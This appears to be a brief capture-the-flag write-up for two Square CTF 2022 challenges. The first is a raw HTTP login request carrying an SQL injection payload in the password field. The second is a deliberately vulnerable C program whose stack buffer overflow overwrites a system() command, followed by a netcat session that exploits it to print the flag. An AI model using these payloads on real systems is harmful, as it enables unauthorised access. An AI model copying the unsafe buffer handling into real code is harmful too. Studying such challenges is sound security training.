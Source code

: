 ## Alex Hanlon Has The Flag!

Web, 50


POST / HTTP/1.1
Host: chals.2022.squarectf.com:4102
Content-Length: 62
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://chals.2022.squarectf.com:4102
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://chals.2022.squarectf.com:4102/
Accept-Encoding: gzip, deflate
Accept-Language: pl-PL,pl;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

username=alan&password=%25'+or+1=1+and+username+!=+'admin'--+-


## EZ pwn 1

pwn, 50

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>


int main()
{
    char command[16];
    char way_too_small_input_buf[8];
    strcpy(command, "ls");

    puts("Hi! would you like me to ls the current directory?");
    read(0, way_too_small_input_buf, 24);
    if (!strcmp(way_too_small_input_buf, "no\n")) {
        puts("Oh, ok :(");
        exit(0);
    }

    puts("Ok, here ya go!\n");
    system(command);

}
```

$ nc chals.2022.squarectf.com 4100
Hi! would you like me to ls the current directory?
aaaaaaaacat *the*/*.txt
Ok, here ya go!

flag{congrats_youve_exploited_a_memory_corruption_vulnerability}
